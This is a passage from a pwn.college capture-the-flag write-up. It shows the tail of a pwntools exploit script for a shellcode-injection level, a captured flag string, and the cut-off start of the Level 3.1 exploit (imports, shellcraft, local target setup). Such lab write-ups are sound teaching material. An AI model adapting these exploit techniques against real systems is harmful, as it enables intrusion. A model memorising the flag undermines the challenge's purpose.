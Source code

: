 ```python

def main():
    try:
        target = launch()
        payload = construct_payload(target, padding_size)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{IDpfJ24swVO_Q0TAY9ajONzKHTe.01MyMDL5cTNxgzW}`

# Level 3.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode and a method of tricking the challenge into executing it by utilizing clever payload construction.

## Write-up

参见 [Level 3.0](#level-30)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-3-1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

```